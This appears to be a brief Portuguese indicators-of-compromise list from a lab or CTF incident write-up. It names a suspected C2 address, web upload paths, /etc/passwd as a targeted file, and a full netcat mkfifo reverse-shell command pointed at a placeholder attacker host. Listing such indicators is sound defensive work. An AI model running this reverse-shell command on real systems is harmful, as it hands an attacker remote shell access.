 **IoCs (generalizados, sem spoilers)**

- IP externo suspeito: 198.51.100.25
- Servidor vítima: 192.0.2.10
- Possível C2 (destino outbound): 203.0.113.10:8080
- Padrões HTTP: uploads em /reviews/upload.php e diretório /reviews/uploads/
- Artefato sensível (exemplo genérico): /etc/passwd

- Padrão de comando (generalizado): `rm /tmp/f; mkfifo /tmp/f; cat /tmp/f|/bin/sh -i 2>&1|nc <ATTACKER_IP> 8080 >/tmp/f`
